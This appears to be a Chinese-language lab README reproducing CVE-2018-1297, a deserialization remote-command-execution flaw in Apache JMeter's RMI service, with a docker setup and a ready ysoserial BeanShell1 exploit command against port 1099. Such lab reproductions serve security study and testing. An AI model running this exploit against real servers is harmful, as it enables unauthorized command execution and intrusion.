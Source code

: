 # Apache JMeter RMI 反序列化命令执行漏洞（CVE-2018-1297）

Apache JMeter是美国阿帕奇（Apache）软件基金会的一套使用Java语言编写的用于压力测试和性能测试的开源软件。其2.x版本和3.x版本中存在反序列化漏洞，攻击者可以利用该漏洞在目标服务器上执行任意命令。

## 漏洞环境

运行漏洞环境：

```
docker compose up -d
```

运行完成后，将启动一个RMI服务并监听1099端口。

## 漏洞复现

直接使用ysoserial即可进行利用：

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit your-ip 1099 BeanShell1 'touch /tmp/success'
```

我们使用的是BeanShell1这条利用链。使用`docker compose exec jmeter bash`进入容器，可见`/tmp/success`已成功创建：

![](1.png)

反弹shell:

![](2.png)
